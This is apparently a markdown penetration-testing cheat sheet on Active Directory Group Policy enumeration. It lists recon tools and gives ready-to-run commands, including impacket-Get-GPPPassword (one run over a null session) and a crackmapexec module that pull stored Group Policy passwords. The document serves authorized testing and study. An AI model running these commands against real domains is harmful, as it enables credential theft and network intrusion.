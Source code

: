 - Group Policy Enumeration
  - `Get-DomainGPO`
  - `SharpGPOAbuse`
  - `Group3r`
  - `GPOddity`
  -  [ADrecon](https://github.com/sense-of-security/ADRecon)
  - [pywerview](https://github.com/the-useless-one/pywerview)
	```
	# group3r
	python3 Group3r/group3r.py -d DOMAIN -u USER -p 'PASSWORD' --dc-ip DC_IP --json-out findings/group3r_all.json --scripts --delegation --interesting ; \
	
	# adrecon
	python3 ADRecon/adrecon.py -u 'DOMAIN\\USER' -p 'PASSWORD' -d DOMAIN --dc-ip DC_IP -o findings --format json ; \
	
	# pywerview
	python3 pywerview/pywerview.py -d DOMAIN -u USER -p 'PASSWORD' --dc-ip DC_IP --output findings/pywerview_all.json
	```

 - Group Policy Preference  Enumeration
	```
	# Null Session
	impacket-Get-GPPPassword -no-pass 'DOMAIN_CONTROLLER'

	# with Creds
	impacket-Get-GPPPassword 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
	
	# Netexec
	crackmapexec smb ip  -u user -p pass -M gpp_autologin
	```
### Keylogging & Recon Tools
- `Seatbelt`
- `ADRecon`
- `SharpView`
- `PowerView`
### Aurtomated Enumeration Tools
- Bloodhound
- SOAPhound

---
